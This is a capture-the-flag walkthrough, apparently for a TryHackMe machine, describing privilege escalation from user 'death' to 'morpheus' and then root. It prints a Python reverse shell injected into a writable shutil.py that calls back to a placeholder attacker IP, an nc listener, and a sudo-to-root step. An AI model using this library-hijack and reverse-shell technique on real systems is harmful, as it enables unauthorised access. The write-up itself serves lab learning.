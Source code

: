 ## Privilege Escalation morpheus

As user `death` I was able to read the original source code of `getDreams.py`, where I found the credentials of the user. This allowed me to connect with SSH, which is more comfortable then the reverse shell. The user Morpheus had an interesting Python script in his home directory:
```python
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

I checked the permissions of the imported libraries and found that the user death had the group permissions on the `shutil.py` which allowed me to modify it:
```bash
death@dreaming:/home/morpheus$ find / -type f -name shutil.py 2>/dev/null
  /usr/lib/python3.8/shutil.py
  /snap/core20/1974/usr/lib/python3.8/shutil.py
  /snap/core20/2015/usr/lib/python3.8/shutil.py
death@dreaming:/home/morpheus$ ls -al /usr/lib/python3.8/shutil.py
	-rw-rw-r-- 1 root death 51474 Aug  7  2023 /usr/lib/python3.8/shutil.py
```

I was able to modify the file and added a reverse shell:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("[attackerip]",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

After executing the file, I received the reverse shell and was able to retrieve the last flag:
```bash
$ nc -lnvp 9002                      
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.201.33] 36056
morpheus@dreaming:~$ cat morpheus_flag.txt
	THM{[removed]}
```

and finally, just for fun, I became root :)
```bash
morpheus@dreaming:~$ sudo -l
  Matching Defaults entries for morpheus on dreaming:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User morpheus may run the following commands on dreaming:
      (ALL) NOPASSWD: ALL
morpheus@dreaming:~$ sudo su
root@dreaming:/home/morpheus# cd /root
root@dreaming:~# ls
  snap
root@dreaming:~# id
  uid=0(root) gid=0(root) groups=0(root)
```

solved! :)